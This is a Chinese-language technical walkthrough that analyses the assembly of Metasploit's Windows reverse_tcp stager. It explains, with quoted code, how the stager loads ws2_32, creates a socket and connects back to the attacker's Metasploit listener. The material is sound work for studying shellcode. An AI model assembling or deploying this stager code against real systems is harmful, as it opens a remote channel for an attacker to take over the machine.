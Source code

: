 在第 5 行先调用了 block\_api\_hash 得到了 LoadLibraryA 函数的地址，接着将 LoadLibraryA 函数的地址压入了堆栈，然后调用了 asm\_block\_api 函数。

此函数调用 LoadLibraryA 加载了 ws2\_32 这个 dll，为下面使用 socket 链接 metasploit 做准备。  
从第 9 行开始，就是往堆栈中压入了一些参数，接着又调用了 WSAStartup 函数初始化了网络库。

下面这些汇编主要是压入了一些参数，接着在第 15 行调用了 WSASocketA 函数创建了一个套接字，接着把套接字存储到了 edi 中

```c
create_socket: 
    push #{encoded_host} ; host in little-endian format 
    push #{encoded_port} ; family AF_INET and port number 
    mov esi, esp ; save pointer to sockaddr struct 
    push eax ; if we succeed, eax will be zero, push zero for the flags param. 
    push eax ; push null for reserved parameter 
    push eax ; we do not specify a WSAPROTOCOL_INFO structure 
    push eax ; we do not specify a protocol inc eax ; 
    push eax ; push SOCK_STREAM 
    inc eax ; 
    push eax ; push AF_INET 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')} 
    call ebp ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );//创建了 socket，为连接服务器做准备 
    xchg edi, eax ; save the socket for later, don't care about the value of eax after this
```

接着在第 7 行调用了 bind 函数，绑定了传入的 socket 结构体中的 ip 与端口

```c
push #{encoded_bind_port} ; family AF_INET and port number 
mov esi, esp ; save a pointer to sockaddr_in struct 
push #{sockaddr_size} ; length of the sockaddr_in struct (we only set the first 8 bytes, the rest aren't used) 
push esi ; pointer to the sockaddr_in struct 
push edi ; socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'bind')} 
call ebp ; bind( s, &sockaddr_in, 16 ); 
push #{encoded_host} ; host in little-endian format 
push #{encoded_port} ; family AF_INET and port number 
mov esi, esp
```

接着又调用了 connect 函数链接 metasploit，如果 eax 中的值为 0 那么代表链接成功。

```c
push 16 ; length of the sockaddr struct 
push esi ; pointer to the sockaddr struct 
push edi ; the socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'connect')} 
call ebp ; connect( s, &sockaddr, 16 ); 
test eax,eax ; non-zero means a failure 
jz connected 
handle_connect_failure: 
    ; decrement our attempt count and try again 
    dec dword [esi+8] 
    jnz try_connect
```
